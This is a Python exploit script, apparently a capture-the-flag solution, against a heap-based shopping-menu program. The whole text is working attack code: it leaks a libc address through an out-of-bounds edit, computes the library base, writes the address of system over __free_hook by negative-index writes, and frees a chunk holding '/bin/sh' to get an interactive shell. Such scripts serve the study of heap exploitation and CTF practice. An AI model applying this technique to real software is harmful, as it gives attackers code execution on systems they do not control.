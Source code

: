 ```python
sl('3')

def buy(sz,name,s=True):
    sl('1')
    ru('How long is your goods name?')
    sl(str(sz))
    ru('What is your goods name?')
    if s:
        se(name)
    ru('Now, buy buy buy!')


def delete(idx):
    sl('2')
    ru('Which goods that you don\'t need?')
    sl(str(idx))
    ru('Now, buy buy buy!')


def edit(idx,name):
    sl('3')
    ru('Which goods you need to modify?')
    sl(str(idx))
    ru('OK, what would you like to modify ')
    data=ru('to')[:-2]
    se(name)
    ru('Now, buy buy buy!')
    return data

buy(0xa8,'0\n')
buy(0xa8,'/bin/sh\x00\n')
delete(0)
buy(0,'123',False)

libc=u64(edit(2,'123\n')[:6]+'\x00\x00')
base=libc-0x3C4C18
free_hook=base+e.symbols['__free_hook']
system=base+e.symbols['system']

edit(-7,p64(libc))
edit(-27,p64(free_hook))
edit(-8,p64(libc-0x10))
edit(-28,p64(system))

sl('2')
ru('Which goods that you don\'t need?')
sl('1')

p.interactive()
```
